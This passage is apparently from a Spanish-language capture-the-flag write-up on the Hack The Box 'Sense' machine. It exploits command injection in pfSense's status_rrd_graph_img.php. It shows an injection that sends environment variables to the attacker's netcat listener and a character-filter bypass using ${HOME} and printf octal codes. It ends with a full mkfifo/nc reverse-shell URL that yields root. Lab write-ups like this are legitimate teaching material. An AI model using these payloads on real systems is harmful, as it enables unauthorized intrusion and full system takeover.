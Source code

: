 Por lo tanto, al servidor no le gusta el **/**, **&** y el **-**. Si checamos las variables de entorno del servidor:

```bash
https://10.10.10.60/status_rrd_graph_img.php?database=queues;env | nc 10.10.14.27 443
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 5600
OLDPWD=/
HOME=/
PHP_FCGI_MAX_REQUESTS=500
PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin:/usr/local/sbin
LANG=en_US.ISO8859-1
PHP_FCGI_CHILDREN=1
PWD=/var/db/rrd
```

Tenemos la variable **HOME** cuyo valor de **/**, por lo que podemos sustituir `/` por `${HOME}` y en el caso del **-**, si checamos el manual de ASCII corresponde a 055 en octal; por lo tanto, podriamos declarar una variable `guion=$(printf '\055')` y reemplezar los `-` por `${guion}`. De forma similar para **&** corresponde a 046 en octal y la variable seria `guion=$(printf '\046')`.

La expresión nos quedaría de la siguiente forma:

```bash
❯ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 443 >/tmp/f" | tr ' ' '+' | sed 's/\//${HOME}/g' | sed 's/-/${guion}/g' | sed 's/&/${amper}/g'
rm+${HOME}tmp${HOME}f;mkfifo+${HOME}tmp${HOME}f;cat+${HOME}tmp${HOME}f|${HOME}bin${HOME}sh+${guion}i+2>${amper}1|nc+10.10.14.27+443+>${HOME}tmp${HOME}f
```

Asi que al final, nuestra reverse shell quedaría de la siguiente forma:

```bash
https://10.10.10.60/status_rrd_graph_img.php?database=queues;guion=$(printf+'\055');amper=$(printf+'\046');rm+${HOME}tmp${HOME}f;mkfifo+${HOME}tmp${HOME}f;cat+${HOME}tmp${HOME}f|${HOME}bin${HOME}sh+${guion}i+2>${amper}1|nc+10.10.14.27+443+>${HOME}tmp${HOME}f
```

Nos pondemos en escucha por el puerto 443

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 14383
whoami
root
```

Ya nos encontramos dentro de la máquina como el usuario **root** y podemos visualizar las flags (usert.txt y root.txt).

Se comparte un autopwn de la máquina [Sense-Autopwn](https://github.com/k4miyo/Sense-Autopwn).
